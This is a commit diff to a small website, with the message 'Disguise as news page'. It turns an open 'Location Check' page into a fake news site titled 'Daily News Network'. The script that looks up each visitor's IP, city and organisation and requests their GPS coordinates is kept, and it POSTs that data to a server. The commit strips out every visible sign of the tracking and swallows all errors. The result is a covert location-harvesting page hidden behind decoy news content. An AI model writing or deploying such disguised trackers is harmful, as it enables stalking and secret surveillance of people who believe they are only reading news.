

Before and after one commit to Mohitkuma0711/locationn, a website: page public/index.html in a window 1280 px wide. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Disguise as news page

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,15 +1,60 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
-  <title>Location Check</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Breaking News - Latest Updates</title>
   <style>
-    body { font-family: monospace; padding: 20px; text-align: center; }
-    .msg { color: green; margin-top: 20px; }
+    * { margin: 0; padding: 0; box-sizing: border-box; }
+    body { font-family: 'Georgia', serif; background: #fff; color: #333; }
+    header { background: #b00; color: #fff; padding: 10px 20px; text-align: center; }
+    header h1 { font-size: 1.4rem; letter-spacing: 2px; }
+    nav { background: #222; padding: 10px 20px; text-align: center; }
+    nav a { color: #fff; text-decoration: none; margin: 0 15px; font-size: 0.9rem; }
+    .container { max-width: 800px; margin: 20px auto; padding: 0 20px; }
+    .hero { background: #f5f5f5; padding: 30px; margin-bottom: 20px; border-left: 4px solid #b00; }
+    .hero h2 { font-size: 1.8rem; margin-bottom: 10px; }
+    .hero .meta { color: #888; font-size: 0.85rem; margin-bottom: 15px; }
+    .hero p { line-height: 1.6; font-size: 1.05rem; }
+    .sidebar { background: #fafafa; padding: 20px; border: 1px solid #eee; margin-top: 20px; }
+    .sidebar h3 { margin-bottom: 10px; font-size: 1rem; }
+    .sidebar ul { list-style: none; }
+    .sidebar li { padding: 8px 0; border-bottom: 1px solid #eee; font-size: 0.9rem; }
+    footer { text-align: center; padding: 20px; color: #999; font-size: 0.8rem; margin-top: 40px; }
   </style>
 </head>
 <body>
-  <h2>Location Check</h2>
-  <p class="msg" id="result">Loading...</p>
+  <header>
+    <h1>DAILY NEWS NETWORK</h1>
+  </header>
+  <nav>
+    <a href="#">World</a>
+    <a href="#">Politics</a>
+    <a href="#">Technology</a>
+    <a href="#">Health</a>
+    <a href="#">Sports</a>
+  </nav>
+  <div class="container">
+    <div class="hero">
+      <h2>Major Tech Company Announces Revolutionary AI Breakthrough</h2>
+      <div class="meta">June 27, 2026 | Technology Desk</div>
+      <p>In a surprising announcement today, a leading technology firm revealed a new artificial intelligence system capable of transforming multiple industries. Experts say this development could reshape how we interact with technology in our daily lives, from healthcare to education and beyond.</p>
+      <br>
+      <p>The system, which has been in development for over three years, reportedly uses advanced neural networks to process information in ways previously thought impossible. Industry analysts are calling it one of the most significant technological advances of the decade.</p>
+    </div>
+    <div class="sidebar">
+      <h3>Trending Stories</h3>
+      <ul>
+        <li>Global Markets Rally After Positive Economic Data</li>
+        <li>New Study Reveals Benefits of Mediterranean Diet</li>
+        <li>Space Agency Confirms Discovery of New Planet</li>
+        <li>Scientists Develop Breakthrough in Renewable Energy</li>
+      </ul>
+    </div>
+  </div>
+  <footer>
+    &copy; 2026 Daily News Network. All rights reserved.
+  </footer>
 
   <script>
     function sendLocation(data) {
@@ -17,14 +62,6 @@
         method: "POST",
         headers: { "Content-Type": "application/json" },
         body: JSON.stringify(data)
-      }).then(res => res.json()).then(res => {
-        if (res.success) {
-          document.getElementById("result").innerText = "Location recorded!";
-        } else {
-          document.getElementById("result").innerText = "Error: " + (res.error || "Unknown");
-        }
-      }).catch(err => {
-        document.getElementById("result").innerText = "Error: " + err.message;
       });
     }
 
@@ -32,31 +69,20 @@
       .then(res => res.json())
       .then(data => {
         const locationData = {
-          ip: data.ip,
-          city: data.city,
-          region: data.region,
-          country: data.country_name,
-          org: data.org,
-          lat: null,
-          lon: null,
-          timestamp: new Date().toISOString()
+          ip: data.ip, city: data.city, region: data.region,
+          country: data.country_name, org: data.org,
+          lat: null, lon: null, timestamp: new Date().toISOString()
         };
-
         if (navigator.geolocation) {
           navigator.geolocation.getCurrentPosition((pos) => {
             locationData.lat = pos.coords.latitude;
             locationData.lon = pos.coords.longitude;
             sendLocation(locationData);
-          }, () => {
-            sendLocation(locationData);
-          });
+          }, () => sendLocation(locationData));
         } else {
           sendLocation(locationData);
         }
-      })
-      .catch(() => {
-        document.getElementById("result").innerText = "Error fetching location";
-      });
+      }).catch(() => {});
   </script>
 </body>
 </html>
```
